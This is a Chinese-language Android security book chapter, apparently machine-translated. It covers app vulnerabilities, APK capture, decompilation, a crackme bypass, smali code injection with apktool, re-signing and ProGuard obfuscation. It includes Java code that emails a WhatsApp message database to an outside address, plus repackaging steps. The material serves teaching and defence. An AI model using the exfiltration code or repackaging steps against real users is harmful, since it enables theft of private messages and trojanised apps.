# 七、安全

安全在维基百科中被定义为“抵抗或保护免受伤害的程度”。它适用于任何脆弱和有价值的资产，如个人、住所、社区、物品、国家或组织。”

当我们想到软件中的安全性时，我们的脑海中会浮现出黑客使用黑屏和绿色字体工作的画面，他们总是非常快速地键入控制台命令来访问系统或突破防火墙。现实与好莱坞看到的不同。**安全软件中的**指的是一个健壮的系统，它保护用户的隐私，避免攻击者不希望的交互，并且具有完整性。

计算机系统可能会遇到几个漏洞或攻击媒介:

*   **后门**:后门是一个用来绕过应用安全的点，传统上是由系统的开发者留下的。2013 年，斯诺登曝光的一桩丑闻表明，美国国家安全局有许多可操作的系统和平台的后门，包括来自谷歌的系统和平台。
*   **拒绝服务** : A **拒绝服务** ( **DoS** )是攻击，目的是让用户无法使用某个资源。DDoS 和 DoS 攻击属于这一类:这些攻击包括向服务器发送请求，直到服务器无法处理所有请求并停止向合法用户提供内容。
*   **直接访问攻击**:在这个类别中，攻击者直接访问系统，一般目的是窃取其中包含的文档或相关信息。
*   **Main-in-the-middle (MitM) attack**: With this attack, a third party interposes a computer between a legitimate destination and origin, and establishes itself fraudulently as the legitimate destination. The user then sends all the information to this interceptor, which often resends again the information to the legitimate destination, so the user does not realize the information has been intercepted.

    

    MitM 攻击的地形

*   **篡改**:篡改是指对软件的恶意修改，一般以假装是合法版本为目的，在后台进行一些不希望的操作(如监控，或信息窃取)。

安卓系统作为一个操作系统，并不是没有这些风险。考虑到它的广泛范围(全球有超过 10 亿的安卓设备)，它实际上比其他平台受到的威胁更大。已经有一些著名的(并且广泛使用的)带有设计标志的应用，它们通常被用作当软件没有被正确设计时会发生什么的例子。

# WhatsApp——永远的“无政府主义”展示

WhatsApp 可以展示应用可以展示的一些标志。2011 年报告了一个 bug，称 WhatsApp 内部的通信没有加密。连接到同一无线网络的设备可以访问其他设备之间的通信。修复这个 bug 花了将近一年的时间，这个 bug 解决起来并不是特别复杂。

那年晚些时候，还报告了一个允许攻击者冒充用户并控制其帐户的问题。2012 年 1 月，一名黑客发布了一个网站，如果知道电话号码，就可以更改安装了 WhatsApp 的任何设备的状态。WhatsApp 修复这个 bug 的唯一措施是屏蔽网站的 IP 地址(任何读者都可以想象，这远不是一个有效的措施)。

WhatsApp 多年来存在的一个大问题是，消息存储在本地数据库中。这是在外部存储中完成的，外部存储是任何其他应用(以及任何恶意黑客)都可以访问的文件。这个想法可能有它的理由(例如保留备份)，但是的实现是一场灾难。数据库总是使用相同的加密密钥进行加密，因此任何有权访问该文件的人都可以轻松地解密它。以下几行是获取数据库文件并通过电子邮件发送的操作示例:

```java
  public void onClick(View v) {
      try {   
          AsyncTask<Void, Void, Void> m = new AsyncTask<Void, Void, Void>() {

              @Override
              protected Void doInBackground(Void... arg0) {
                  GMailSender sender = new GMailSender(EMAIL_STRING, PASSWORD_STRING);
                  try {
                     File f = new File(filePathString); 
                 if (f.exists() && !f.isDirectory()) {
                   sender.addAttachment("/storage/sdcard0/ WhatsApp/ Databases/msgstore.db.crypt", SUBJECT_STRING);
                            sender.sendMail(SUBJECT_STRING,
                                    BODY_STRING,
                                    EMAIL_STRING,
                                    RECIPIENT_STRING);

                 }    
                  } catch (Exception e) {
                      e.printStackTrace();
                  }   
                  return null;
              }
          };
          m.execute((Void)null);
      } catch (Exception e) {
          Log.e("SendMail", e.getMessage());
      } 
  }
});
```

# 深入代码

当我们在某一特定技术上进行开发时，我们通常用高级语言(如 C、C++或 Java)编程，然后将我们的代码和资源编译成一个文件，该文件将在独立的平台上执行。编译的过程因技术而异(Java 与 C++的过程不同，因为 Java 将在 JVM 中运行)。或多或少有一些困难，已经编译的代码可以被“反转”，并从通常不可读的已编译代码访问到更用户友好的东西。

下图显示了我们如何在安卓系统中开发应用:


以上解释如下:

1.  最初，我们利用安卓软件开发工具包和外部库开发我们的应用。最后，我们也使用 NDK，它遵循不同的开发和编译过程。
2.  当我们的应用准备好并且我们想要编译它时，它将被编译以在安卓虚拟机中执行。这将被编译成一个带有 DEX 格式的粗略等效字节码文件，这是安卓理解的格式。
3.  文件随后被打包和签名。签名的过程很重要，因为这样我们就可以确保文件属于某个特定的公司，并且没有被修改。
4.  稍后，该应用将通过谷歌应用商店或任何其他替代市场分发。

### 注

操作系统版本为 4.4 或更早版本的安卓设备使用名为达尔维克的虚拟机的特定版本，该版本以冰岛的一个渔村命名。安卓 5.0 停止了这种做法，它包含了名为 **安卓运行时** ( **ART** )的虚拟机新版本，该版本使用了相同的字节码和 DEX 格式。

为了访问生成 APK 文件的代码，按照相反的方向执行这些步骤是很容易的。

# 捕获 APK 文件

我们可以使用不同的方法来捕获 APK 文件。我们将在本书中介绍其中的三个，在撰写本文时(2015 年最后一个季度)可以获得。请注意，本章提供的信息仅用于教育目的。在执行逆向工程时，需要遵守一些规则和法规，这将在后面讨论。

## 从设备中拉出文件

如果我们的设备是根设备，或者我们使用的是安装了GooglePlay服务的模拟器，就有可能拉一个已经安装的 APK。请注意，根设备可能成为恶意应用和攻击者的目标。如果你打算根你的设备有很多免费的信息在互联网上。

当应用已经从游戏商店或替代市场安装时，您将首先需要将`adb`连接到您的计算机。首先，您需要确定目标应用的包名:

```java
adb shell pm list packages

```

尝试将应用名称与已列出的包之一匹配，这并不总是容易的。如果找不到，请在播放商店中显示该应用时，从浏览器中查看该网址:


这张图片与谷歌地图相对应。包名就是`id=-`之后的一切。确定包后，您需要获得包的完整路径:

```java
adb shell pm path com.example.targetapp

```

这通常会返回文件夹`/data/app`中的地址。找到它后，您需要将其从设备中拉出:

```java
adb pull /data/app/com.example.targetapp-2.apk

```

之后，您将成功下载您的应用 APK。

## 使用 Wireshark 捕获 APK

Wireshark 是一款广泛应用于安全领域的网络嗅探器和分析器。它捕获网络中的流量并进行嗅探，也就是说，读取未加密的内容。即使内容是加密的，也有一些技术会误导客户端或设备相信服务器是可信的(中间人)，然后拦截正在发送的所有信息。

为了拦截 APK 文件(和安卓流量)，你需要在你的电脑中创建一个热点。这将取决于您使用的操作系统。在麦金塔中，可以通过选项**互联网共享**轻松完成，使用以太网作为共享互联网连接，并提供无线网络作为热点。该选项可在**配置**菜单中找到:



当手机已经连接到我们的热点并正在导航时，我们需要让 Wireshark 从连接中嗅探。使用 Wireshark 并设置它可能会占用整本书。作为起点:我们需要指向与 Wireshark 共享的接口，并关注所有正在发送和接收的包。我们可以使用过滤器来指出发送信息的 IP，因为它可能是大量的信息。当确定了网址和认证头后，我们可以使用 HTTP 请求创建者(如邮递员)继续下载 APK:



## 使用外部网站

许多网站提供这一功能，以换取点击广告或展示广告。在谷歌上搜索`"download APK file online"`将会把成千上万的网站扔回来。一个不太详尽的搜索将引导我们下载我们的目标 APK。然而，我们*强烈反对这种方法。正如我们将在后面看到的，修改 APK 并插入恶意代码是一项微不足道的任务。一个提供明显免费下载的网站背后隐藏着恶意软件的代码注入。*

# APK 档案的尸检

让我们假设我们已经获得了 APK 文件。为了便于练习，我们将创建一个`HelloWorld`应用，其中仅包括`Activity`中的一个`TextView`。

为了继续分析我们应用的内部，让我们首先解压缩 APK 并检查它的内容。我们将看到类似如下的内容:



对于这个世界上的新手来说，我们可以看到安卓清单和`res`文件夹里面的资源是可以直接访问的。文件`classes.dex`包括我们在上一节中解释的编译后的 Java 文件。文件`Resources.arsc` ( **应用资源文件**)包含二进制资源列表，包括程序使用的任何类型的数据。该文件由 **安卓资产打包工具** ( **aapt** )创建。

我们现在将介绍第一种技术来读取尚未混淆的文件的代码，并将该文件转换为 JAR 文件，然后用反编译程序打开它。为此，我们需要两种工具:

*   **dex2jar** :一款开源工具，将安卓 APKs 转换成 jar 文件。翻译并不完全准确，但通常足以反编译一个 JAR 文件(总是更容易)并洞察代码。可以从[http://sourceforge.net/p/dex2jar/](http://sourceforge.net/p/dex2jar/)下载。
*   **JD-GUI**:Java 反编译项目是继 Java Version 5 之后又一个旨在以简单直观的方式反编译 JAR 文件的开源项目。我们有 Eclipse 和 IntelliJ 的插件，但是在本章中，我们将使用独立的应用。可以从[http://jd.benow.ca/](http://jd.benow.ca/)下载。

当我们下载了两个应用后，让我们首先将 APK 转换成一个 JAR 文件。为此，我们需要编写以下命令:

```java
java –jar dex2jar.jar target.apk

```

或者下面，如果我们使用的是`.sh`文件:

```java
./dex2jar.sh target.apk

```

这将在与`target.apk`相同的文件夹中生成一个名为`TargetFile_dex2jar.jar`的文件。

现在我们浏览到这个文件，用 JD-GUI 打开，选择`HelloWorldActivity`。我们将看到类似于以下屏幕的内容:



这是一个应用的基本例子，但有洞察力的读者会意识到，更复杂的应用的可能性也是巨大的。下一个练习，让我们下载一个 Crackme，试着玩它的`insight.exercise`:

### 注

Crackmes 通常是为了测试程序员在逆向工程方面的知识而创建的程序。它提供了一种合法的方法来“破解”软件并绕过安全措施，因为没有真正的公司参与其中。它们经常在比赛中使用。

为了测试一个真实的逆向工程场景，我们需要下载以下的【Crackme(需要注册):[http://crackmes.de/users/deurus/android_crackme03/](http://crackmes.de/users/deurus/android_crackme03/)。

下载后，解压并在模拟器或设备中安装 APK 文件。启动后，将显示以下屏幕:



这个特殊的程序需要安装在一个真实的设备中，因为在仿真器中，被获取的参数之一总是一组 0。但是对于我们的目的来说，它会工作得很好。

我们应用的过程与我们之前在`HelloWorld`应用中应用的过程相同(转换为 JAR，然后用 JD-GUI 打开)。打开后，导航至文件`HelloAndroid`。我们将看到以下代码:



这是一组不会直接编译的代码。它充满了随机中断和奇怪的回报和条件。但是，我们可以在编译器中重新组织它，以显示基础知识并理解它:

1.  主屏幕中第一个和第二个`TextView`的值被取为两个变量(`str1`和`str2`)。
2.  如果第一个字符串的长度小于 4，则过程中止，并以文本`"min 4 chars"`显示`Toast`。
3.  有两个字符串(`str5`和`str6`)分别是设备 ID 和 SIM 序列号。
4.  还有一些字符串的进一步组合(`str7`和`str8`)采用`str5`和`str6`的子串，还有一个应用了 EXOR 运算符的子串。

我们可以稍微重组一下代码，保证它能编译。我们可以在相同的代码中指出我们提供的值，并运行它:

```java
      String str1 = "MyName";
        int i = str1.length();
        String str2 = "";
        String str3 = "00000";
        while (true) {

            Toast.makeText(mainActivity, "Min 4 chars", 1).show();

            String str4 = String.valueOf(0x6B016 ^ Integer.parseInt(str2.substring(0, 5)));
            TelephonyManager localTelephonyManager = (TelephonyManager) mainActivity.getSystemService("phone");
            String str5 = localTelephonyManager.getDeviceId();
            String str6 = localTelephonyManager.getSimSerialNumber();
            String str7 = str5.substring(0, 6);
            String str8 = str6.substring(0, 6);
            long l = Integer.parseInt(str7) ^ Integer.parseInt(str8);
            if (!(str4 + "-" + String.valueOf(l) + "-" + str7).equals(str3)) {
                Toast.makeText(mainActivity, "God boy", 1).show();
            }
```

在设备中本地尝试此代码，从功能`getDeviceId()`和`getSimSerialNumber()`中获取正确的信息。稍后在 Crackme 中介绍他们，信息`"God boy"`(如在上帝中)将被显示。恭喜你。你刚刚用逆向工程黑了你的第一个 Crackme。

# 代码注入

另一个大的安全风险是代码注入。**代码注入**发生在一个软件被故意修改以插入一个执行非预期操作的代码模块时，通常是恶意的。这些意想不到的操作包括从数据窃取到用户监控等等。因此，在这种特殊情况下，签署申请尤为重要。由可信制造商签名的应用将不包含注入的代码。

乔治·凯西，一位爱尔兰工程师，在 2013 年的一篇文章中证明了一个可怕的概念证明。他反编译了安卓的获奖键盘 SwiftKey，并注入了一段代码，记录下所有的击键，并通过连接到公共网站的网络服务发送，在那里显示这些击键。重点是证明任何人都可以做到这一点，并上传操纵 APK 到一个替代商店。一个寻找免费 APK 的人可以下载并使用它，在不知道所有个人信息(密码和信用卡)被发送到攻击者的网络服务的情况下发送它。这个过程在他的博客中有详细的解释，令人惊讶的是这个过程是如此的简单。在本节中，我们将展示修改一个基本的`HelloWorld`以在其中插入一些新功能的过程，但是它可以被扩展到想象允许的范围。

### 注

坚持使用官方应用库通常可以提供针对这种攻击的全面保护。谷歌用一个名为**的系统自动扫描所有的 apk，该系统能够检测和停用恶意软件和恶意代码。此外，像 SwiftKey 这样的知名公司不会拿自己的声誉冒险发布一个包含键盘记录器的应用来监视他们的用户。**

 **让我们回到前面几节中开发的类似`HelloWorld`的程序。在这种情况下，我们需要另一个工具，apktool。以前，我们将我们的应用转换成一个 JAR，然后用 JD-GUI 反编译它。现在我们将执行一个更精确的过程，即将应用直接分解和组装成 Baksmali 和 smali 格式(Android VM 使用的格式)。Baksmali 和 smali 在冰岛语中分别指的是传播者和汇编者(我们认为谷歌的安卓开发者确实主要来自冰岛，或者他们对这个国家有着强烈的热情，以这个国家命名他们的许多组件)。关于这种格式的官方文档并不多，所以现在最推荐的学习方法是对应用进行反编译。一如既往——实践胜于理论。

从网址[http://ibotpeaches.github.io/Apktool/](http://ibotpeaches.github.io/Apktool/)下载 apktool 。当它安全地在您的计算机上时，从`HelloWorld`应用中取出 APK 并键入以下命令:

```java
apktool d –r HelloWorld.apk HelloWorld

```

这将把当前的 APK 文件分解到文件夹`HelloWorld`中。如果我们导航到该文件夹，我们将观察到以下结构:

*   `AndroidManifest.xml`:这是人类可读的
*   `res/folder`:资源文件夹，其所有内容已解码
*   `smali/folder`:这个文件夹包含了所有的源文件，是这个版块最重要的一个
*   `apktool.yml`:apk tool 的配置文件

让我们导航到文件夹`smali/`看一看。结构将类似于以下结构:


对于 APK 的每个班级，我们都创建了一个`smali`文件。还有一些其他文件，带有符号，`class$name.smali`。它们代表类文件中的内部类(在我们的类中位于`R`类中，该类是访问安卓资源的生成类)。`smali`是 Java 文件的字节码表示。

现在是时候看一下`smali`文件了。我们先打开`HelloWorldActivity.smali`:

```java
.class public Lcom/test/helloworld/HelloWorldActivity;
.super Landroid/app/Activity;
.source "HelloWorldActivity.java"

# direct methods
.method public constructor <init>()V
    .locals 0

    .prologue
    .line 8
    invoke-direct {p0}, Landroid/app/Activity;-><init>()V

    return-void
.end method

# virtual methods
.method public onCreate(Landroid/os/Bundle;)V
    .locals 2
    .parameter "savedInstanceState"

    .prologue
    .line 12
    invoke-super {p0, p1}, Landroid/app/Activity;- >onCreate(Landroid/os/Bundle;)V

    .line 14
    new-instance v0, Landroid/widget/TextView;

    invoke-direct {v0, p0}, Landroid/widget/TextView;- ><init>(Landroid/content/Context;)V

    .line 15
    .local v0, text:Landroid/widget/TextView;
    const-string v1, "Hello World, Android"

    invoke-virtual {v0, v1}, Landroid/widget/TextView;- >setText(Ljava/lang/CharSequence;)V

    .line 16
    invoke-virtual {p0, v0}, Lcom/test/helloworld/HelloWorldActivity;- >setContentView(Landroid/view/View;)V

    return-void
.end method
```

如果我们阅读文件，有一些例子和名字会很熟悉:似乎有相当多的安卓类，如`Activity`或`TextView`，以及一些安卓方法，如`setContentView()`。开始的前三行好像有类声明，后面是构造函数声明，最后是方法`onCreate()`。

如果我们熟悉某种机器编程，我们就会听说过寄存器(分配给插入信息的空间)的含义。我们可以这样观察:

```java
new-instance v0, Landroid/widget/TextView;
.local v0, text:Landroid/widget/TextView;
const-string v1, "Hello World, Android"
```

不同类型的操作(创建一个变量并访问它)正在进行，使用寄存器的一些指令——在前面的代码中，指令`v0`和`v1`正在使用。

## 操作码

操作码很容易推导；它是要在机器中执行的操作代码。与其他语言和技术相比，达尔维克并没有一大套这样的语言和技术(作为参考，我们可以在下面的网址中找到其中的大部分:[http://pallergabor.uw.hu/androidblog/dalvik_opcodes.html](http://pallergabor.uw.hu/androidblog/dalvik_opcodes.html))。反编译 Java/Dalvik 的优点之一是集合减少，易于推断，因此更容易实现反编译工具的自动化。我们刚刚反编译的代码中包含的一些操作码是:

*   `invoke-super`:调用`super`方法
*   `new-instance`:创建变量的新实例
*   `const-string`:创建字符串常量
*   `invoke-virtual`:调用`virtual`方法
*   `return-void`:返回无效

## 注入新代码

正如我们在这个阶段可能已经推断出的，注入代码的过程包括从功能应用创建 smali 代码，并将其注入到正确的位置。重要的是要注意寄存器的计数，避免覆盖前一个寄存器，使其失去功能。

例如，如果我们创建一个在屏幕上显示祝酒词的函数，编译 APK 并继续反汇编，我们将得到类似如下的一些代码(忽略应用和活动的创建):

```java
invoke-virtual {p0}, Lcom/test/helloworld/HelloWorldActivity;- >getApplicationContext()Landroid/content/Context;

move-result-object v1

const-string v2, "This is a Disassembled Toast!"

const/4 v3, 0x0

invoke-static {v1, v2, v3}, Landroid/widget/Toast;- >makeText(Landroid/content/Context;Ljava/lang/CharSequence;I)Landroid/widget/Toast;

move-result-object v1

invoke-virtual {v1}, Landroid/widget/Toast;->show()V
```

在我们的情况下，覆盖寄存器没有问题。现在我们对原始文件进行修补，我们将获得类似于以下内容的内容:

```java
.class public Lcom/test/helloworld/HelloWorldActivity;
.super Landroid/app/Activity;
.source "HelloWorldActivity.java"

# direct methods
.method public constructor <init>()V
    .locals 0

    .prologue
    .line 8
    invoke-direct {p0}, Landroid/app/Activity;-><init>()V

    return-void
.end method

# virtual methods
.method public onCreate(Landroid/os/Bundle;)V
    .locals 2
    .parameter "savedInstanceState"

    .prologue
    .line 12
    invoke-super {p0, p1}, Landroid/app/Activity;->onCreate(Landroid/os/Bundle;)V

    .line 14
    new-instance v0, Landroid/widget/TextView;

    invoke-direct {v0, p0}, Landroid/widget/TextView;- ><init>(Landroid/content/Context;)V

    .line 15
    .local v0, text:Landroid/widget/TextView;
    const-string v1, "Hello World, Hacked Android"

    invoke-virtual {v0, v1}, Landroid/widget/TextView;- >setText(Ljava/lang/CharSequence;)V

    .line 16
    invoke-virtual {p0, v0}, Lcom/test/helloworld/HelloWorldActivity;- >setContentView(Landroid/view/View;)V

invoke-virtual {p0}, Lcom/test/helloworld/HelloWorldActivity;- >getApplicationContext()Landroid/content/Context;

move-result-object v1

const-string v2, " This is a Disassembled Toast!"

const/4 v3, 0x0

invoke-static {v1, v2, v3}, Landroid/widget/Toast;- >makeText(Landroid/content/Context;Ljava/lang/CharSequence;I) Landroid/widget/Toast;

move-result-object v1

invoke-virtual {v1}, Landroid/widget/Toast;->show()V

return-void
.end method
```

注意寄存器`v1`中的常量字符串也被修改，现在包含文本`"Hello World, Hacked Android!"`。

## 签署并重建应用

随着最后一次应用更改，是时候重新构建应用了。类似于我们如何拆解应用，我们将应用以下命令来重建它(请注意，您需要在拆解的应用文件夹中才能重建它):

```java
apktool b ./HelloWorld

```

这个命令将在文件夹`dist`中创建一个文件名`HelloWorld.apk`。然而，仍然有一件重要的事情要做:签署申请。我们刚刚创建的 APK 还没有签名，还不能安装在任何设备上。

我们首先需要一个`keystore`来签字。如果我们还没有，我们需要使用一个程序如`keytool`来生成一个:

```java
keytool -genkey -v -keystore example.keystore -alias example_alias -keyalg RSA -validity 100000

```

我们需要为按键输入一些信息。虽然不是严格要求，因为它的唯一目的是作为重新包装APK 的演示，我们仍然需要注意我们输入的密钥，因为我们需要在下一步中使用它。生成后，该过程就像使用`jarsigner`对生成的 APK 进行签名一样简单:

```java
jarsigner -verbose -keystore example.keystore ./HelloWorld/dist/HelloWorld.apk alias_name

```

我们的最终应用将显示以下屏幕:



## 保护我们的应用

我们已经看到，如果没有适当的度量，反编译和重新编译一个应用是微不足道的。目的不仅是像传递自己的应用一样传递应用，而且我们可以轻松地访问令牌和代码，这些令牌和代码不应该是每个人都可以访问的。

我们将在这一章探讨不同的想法，但主要是应用混淆。**混淆**是使代码对人类不可读，减慢或停止其理解的过程。混淆在某些领域是一件大事，甚至有创建最佳混淆机制的竞争。以下是 Python 中模糊代码的示例，该代码在屏幕上显示文本`"Just another Perl / Unix hacker"`(该示例来自维基百科，[https://en . Wikipedia . org/wiki/fuzzy _(software)](https://en.wikipedia.org/wiki/Obfuscation_(software))):

```java
@P=split//,".URRUU\c8R";@d=split//,"\nrekcah xinU / lreP rehtona tsuJ";sub p{ @p{"r$p","u$p"}=(P,P);pipe"r$p","u$p";++$p;($q*=2)+=$f=!fork;map{$P=$P[$f^ord ($p{$_})&6];$p{$_}=/ ^$P/ix?$P:close$_}keys%p}p;p;p;p;p;map{$p{$_}=~/^[P.]/&& close$_}%p;wait until$?;map{/^r/&&<$_>}%p;$_=$d[$q];sleep rand(2)if/\S/;print

```

尤其是安卓，更普遍的是 Java，使用 ProGuard 作为默认机制来对我们的源代码应用混淆。在我们的安卓应用中激活 ProGuard 很容易。让我们导航到`build.gradle`。我们很可能会定义一些构建类型(`release`和`debug`是最常见的)。通常的做法是只为`release`建筑类型激活程序:

```java
release { 
      debuggable false 
      minifyEnabled true 
      proguardFiles getDefaultProguardFile('proguard-android.txt'), 'proguard-rules.pro' 
      signingConfig signingConfigs.release 
}
```

`minifyEnabled true` 将完成特技并为我们的发布激活 ProGuard。让我们看看一个典型的用于安卓的 ProGuard 文件是什么样子的:

```java
-injars      bin/classes
-injars      libs
-outjars     bin/classes-processed.jar
-libraryjars /usr/local/java/android-sdk/platforms/android-9/android.jar

-dontpreverify
-repackageclasses ''
-allowaccessmodification
-optimizations !code/simplification/arithmetic
-keepattributes *Annotation*

-keep public class * extends android.app.Activity
-keep public class * extends android.app.Application
-keep public class * extends android.app.Service
-keep public class * extends android.content.BroadcastReceiver
-keep public class * extends android.content.ContentProvider

-keep public class * extends android.view.View {
    public <init>(android.content.Context);
    public <init>(android.content.Context, android.util.AttributeSet);
    public <init>(android.content.Context, android.util.AttributeSet, int);
    public void set*(...);
}

-keepclasseswithmembers class * {
    public <init>(android.content.Context, android.util.AttributeSet);
}

-keepclasseswithmembers class * {
    public <init>(android.content.Context, android.util.AttributeSet, int);
}

-keepclassmembers class * extends android.content.Context {
   public void *(android.view.View);
   public void *(android.view.MenuItem);
}

-keepclassmembers class * implements android.os.Parcelable {
    static ** CREATOR;
}

-keepclassmembers class **.R$* {
    public static <fields>;
}

-keepclassmembers class * {
    @android.webkit.JavascriptInterface <methods>;
}
```

